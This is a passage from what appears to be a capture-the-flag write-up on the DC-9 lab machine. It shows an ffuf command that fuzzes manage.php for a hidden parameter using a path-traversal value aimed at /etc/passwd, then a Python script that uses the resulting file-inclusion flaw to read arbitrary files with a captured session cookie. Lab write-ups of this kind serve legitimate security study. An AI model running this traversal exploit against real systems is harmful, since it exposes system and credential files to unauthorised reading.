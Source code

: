 ![](/assets/obsidian/0a4817d5f74a4dc1a328d9f263ccd1d7.png)

FUZZ for hidden parameter that provides file management function

```bash
ffuf -c -request-proto http -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://dc-9/manage.php?FUZZ=../../../../../../etc/passwd' -b 'PHPSESSID=8akku77i2jgfmchptgq9lv264u' -fs 1341
```

![](/assets/obsidian/6e0696d805581d25f419bd5515cf058e.png)

Wrote a python script to extract the file

> `read_file.py`

```python
import requests
import sys


URI = "http://dc-9/manage.php?file=../../../../../.."


session = requests.Session()
session.cookies.update({"PHPSESSID": "8akku77i2jgfmchptgq9lv264u"})


def get_file(fp: str):
    r = session.get(f"{URI}{fp}")
    data = r.text
    result = data.split('File does not exist<br />',1)[1]
    result = result.split('</div>', 1)[0]
    print(result)


if __name__ == '__main__':
    if not len(sys.argv) == 2:
        print(f'python {sys.argv[0]} <file_path>')
        sys.exit(1)

    fp = sys.argv[1]
    get_file(fp)
```

